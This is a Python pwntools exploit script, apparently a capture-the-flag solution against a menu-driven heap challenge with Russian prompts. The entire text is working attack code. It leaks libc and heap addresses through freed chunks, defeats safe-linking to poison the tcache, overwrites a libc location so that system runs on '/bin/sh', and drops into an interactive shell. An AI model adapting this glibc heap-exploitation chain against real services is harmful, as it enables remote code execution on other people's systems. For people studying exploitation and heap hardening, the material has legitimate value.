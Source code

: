 ```python
def write_chunk(index: int, data: bytes):
    io.sendlineafter('5. Выход'.encode(), b'4')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendlineafter(b'write something in: ', data)
    # return io.recvuntil('1. маллок\n'.encode(), drop=True)


io = start()

allocate(0, 0xf00)
allocate(1, 0x20)
free(0)
main_arena_leak = u64(view(0).ljust(8, b'\x00'))
log.info('main_arena leak: %#x', main_arena_leak)
libc.address = main_arena_leak - libc.sym.main_arena - 0x60
log.info('libc base: %#x', libc.address)

allocate(2, 0x410)
allocate(3, 0x410)
free(2)
free(3)
allocate(4, 0xf00)
allocate(6, 0x38)
free(6)
write_chunk(4, flat({0x410: [0, 0x41, libc.bss()]}))
free(3)
heap_leak = u64(view(6).ljust(8, b'\x00'))
log.info('heap leak: %#x', heap_leak)
heap_base = (heap_leak << 12) - 0x1000
log.info('heap base: %#x', heap_base)

def safe_link(addr, value):
    return (addr >> 12) ^ value

overlapped_chunk = heap_base + 0x6c0
target = libc.address + 0x21a000 + 0x38*2
log.info('target: %#x', target)
write_chunk(4, flat({0x410: [0, 0x41, safe_link(overlapped_chunk, target)]}))

allocate(7, 0x38)
allocate(8, 0x38)

write_chunk(8, flat({0: b'/bin/sh\x00', 0x28: libc.sym.system}))

io.interactive()

```

